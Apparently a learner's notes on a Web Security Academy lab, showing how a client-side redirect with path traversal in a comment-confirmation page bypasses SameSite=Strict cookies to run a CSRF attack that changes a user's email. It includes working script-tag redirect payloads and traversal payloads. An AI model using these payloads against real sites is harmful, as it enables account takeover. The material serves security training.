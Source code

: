 ##### Bypass the SameSite restrictions
1. In the browser, go to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested. The following is one possible approach:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account"; </script>`
2. Observe that when the client-side redirect takes place, you still end up on your logged-in account page. This confirms that the browser included your authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site.

##### Craft an exploit
1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request method**. Burp automatically generates an equivalent `GET` request.
3. Send the request. Observe that the endpoint allows you to change your email address using a `GET` request.
4. Go back to the exploit server and change the `postId` parameter in your exploit so that the redirect causes the browser to send the equivalent `GET` request for changing your email address:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1"; </script>`
    Note that you need to include the `submit` parameter and URL encode the ampersand delimiter to avoid breaking out of the `postId` parameter in the initial setup request.
5. Test the exploit on yourself and confirm that you have successfully changed your email address.
6. Change the email address in your exploit so that it doesn't match your own.

 Analysis:
- we observe that in the post request of login page we have set SameSite strict attribute
	![[Pasted image 20240925011636.png]]
	
- we observe that in the post request of the change email functionality we can change the request from POST to GET(which it means that this endpoint accepts also get request)
	![[Pasted image 20240925011800.png]]
- we have to bypass the SameSite strict by finding a redirecting element which method is trough GET (we will find a redirect in the comment section and the element is postID )
	![[Pasted image 20240925012029.png]]
	![[Pasted image 20240925011914.png]]![[Pasted image 20240925012201.png]]

- payload0 (vulnerable redirecting element):
```
/post/comment/confirmation?postId=5
```

- payload1 (redirecting to my account in order to change email):
```
/post/comment/confirmation?postId=my-account/
```

- payload2 (page not found so we have to do a path traversal):
```
/post/comment/confirmation?postId=../my-account/
```
